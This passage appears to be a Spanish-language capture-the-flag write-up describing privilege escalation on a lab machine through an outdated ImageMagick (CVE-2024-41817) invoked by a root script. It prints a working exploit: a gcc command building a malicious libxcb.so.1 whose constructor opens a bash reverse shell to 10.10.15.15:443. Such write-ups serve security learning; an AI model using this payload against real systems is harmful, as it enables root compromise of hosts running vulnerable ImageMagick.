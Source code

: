 Tenemos la primera Flag en el directorio actual de directorio 

Para elevar privilegios nos moveremos a la ruta de /opt/script llamado **identify_images.sh** donde tendremos un script de bash, el cual ocupa Magick(Image Magick) 

![paste](./images/20.jpeg)

La versión de Image Magick esta desactualizada, en este caso contamos con la versión **7.1.1-35**

![paste](./images/21.jpeg)

Contamos con una vulnerabilidad basada en el siguiente CVE https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8 la vulnerabilidad es una ejecución de comandos 

## Explotación de CVE-2024-41817

Primero:
- Nos movemos a la dirección de : **/opt/app/static/assets/images**
- Ejecutamos lo siguiente(todo junto):

 ```bash
 gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
    system("bash -c 'bash -i >& /dev/tcp/10.10.15.15/443 0>&1'");
    exit(0);
}
EOF
```

  - Nos movemos a la dirección donde esta el script llamado identify_images.sh
  - Nos ponemos en escucha para recibir la reverse shell como root 

![paste](./images/22.jpeg)
